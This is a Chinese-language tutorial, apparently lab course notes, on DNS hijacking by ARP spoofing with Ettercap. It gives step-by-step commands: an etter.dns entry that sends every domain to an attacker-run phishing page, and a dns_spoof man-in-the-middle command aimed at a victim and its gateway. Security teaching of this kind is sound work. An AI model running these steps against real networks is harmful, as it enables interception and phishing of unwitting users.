










# ARP-Ettercap dns劫持

## 1.什么是DNS

#### 1.概念

DNS是Domain Name System的缩写, 我们称之域名系统。首先它是远程调用服务，本地默认占用53端口，它本身的实质上一个域名和ip的数据库服务器，他要完成的任务是帮我们把输入的域名转换成ip地址，之后通过ip寻址连接目标服务器。

#### 2.工作过程

当访问一个网站时系统将从DNS缓存中读取该域名所对应的IP地址，当查找不到时就会到系统中查找hosts文件，如果还没有那么才会向DNS服务器请求一个DNS查询，DNS服务器将返回该域名所对应的IP，在你的系统收到解析地址以后将使用该IP地址进行访问，同时将解析缓存到本地的DNS缓存中。

## 2.什么是DNS劫持

#### 1.概念

 DNS劫持又称域名劫持，是指在劫持的网络范围内拦截域名解析的请求，分析请求的域名，把审查范围以外的请求放行，否则返回假的IP地址或者什么都不做使请求失去响应，其效果就是对特定的网络不能访问或访问的是假网址。

#### 2.ettercap劫持的原理

局域网劫持, 攻击者通过伪装成网关, 劫持受害者的网络请求, 将网络请求拦截到指定的服务器

#### 3.DNS常用命令讲解

1.查看DNS缓存表

```
ipconfig /displaydns
```

	

查询到马士兵网站的地址如下

	

2.获取DNS地址：

```
ping maishibing.com
```

2.刷新DNS缓存

用于清除dns缓存

```
ipconfig /flushdns
```


## 3.ARP-DNS欺骗攻击步骤

注意:这个用于欺骗http协议的网站基本上都能成功，https有时可以欺骗成功，有时不行。

#### 1.kali开启apache服务

```
service apache2 start
```

	

#### 2.浏览器访问Apache的首页

```
http://192.168.15.141
```

假设该网站拿来作为钓鱼网站。



#### 3.编辑ettercap配置文件

##### 1.进入配置文件位置

```
cd /etc/ettercap
```

##### 2.复制原有的配置文件（环境恢复比较方便）

```
cp etter.dns etter.dns1
```

	

#### 3.设置dns劫持配置文件

```
vi /etc/ettercap/etter.dns
添加以下内容
*   A   192.168.110.12
*   PTR 192.168.110.12
wq保存
参数
*:代表所有的网站 也可设置某个网站 www.mashibing.com
A:代表钓鱼的ip地址
PTR ：常被用于反向地址解析
```

添加如下内容，用于作为ettercap的dns解析，只要解析任何域名地址，就会返回这个kali的ip，即钓鱼网站的ip

		

#### 4.ettercap劫持命令讲解

```
第一个ip是靶机ip，第二个是网关ip
ettercap -i eth0 -Tq -M arp:remote -P dns_spoof /靶机ip// /网关ip// 
 -i：网卡
 -T：文本模式
 -q：安静模式
 -M：执行mitm攻击
 -P：plugin 开始该插件
```

#### 5.靶机访问以下网站确认环境正常

```
http://www.mashibing.com/
http://m.ctrip.com
http://www.jd.com/
```

```
ping www.mashibing.com
ping m.ctrip.com
ping www.jd.com
```

目前访问的域名是正常的网站。


​	

#### 6.执行劫持命令

```
ettercap -i eth0 -Tq -M arp:remote -P dns_spoof /192.168.15.100// /192.168.15.2// >b.txt
```

	

#### 7.分析日志

```
tail -f b.txt
或者
tail -f b.txt | grep "dns_spoof"
```

#### 8.靶机访问以下网站查看攻击效果

```
http://www.mashibing.com/
http://m.ctrip.com
http://www.jd.com/
```

```
ping www.mashibing.com
```

会发现此时访问马士兵的域名是kali的ip.

	

此时访问马士兵的域名发现变成了钓鱼网站。

	

#### 9.停止劫持

```
Ctrl+C
```

#### 10.恢复dns劫持，刷新dns缓存即可。

```
ipconfig /flushdns
```

#### 11.靶机访问以下网站查看环境是否恢复正常

```
http://www.mashibing.com/
http://m.ctrip.com
http://www.jd.com/
```

```
ping www.mashibing.com
```

此时ping可以发现ip恢复正常。

	

#### 12.恢复kali环境

##### 1.进入配置文件位置

```
cd /etc/ettercap
```

##### 2.复制dns文件到新文件

备份这个配置好dns的到etter.dns2文件下。

```
cp etter.dns etter.dns2
```

##### 3.还原dns配置文件

保存好配置的dns文件后，可以还原成初始配置。

```
cp etter.dns1 etter.dns
```

## 4.课堂小结

参考：ARP-Ettercap dns劫持.xmind

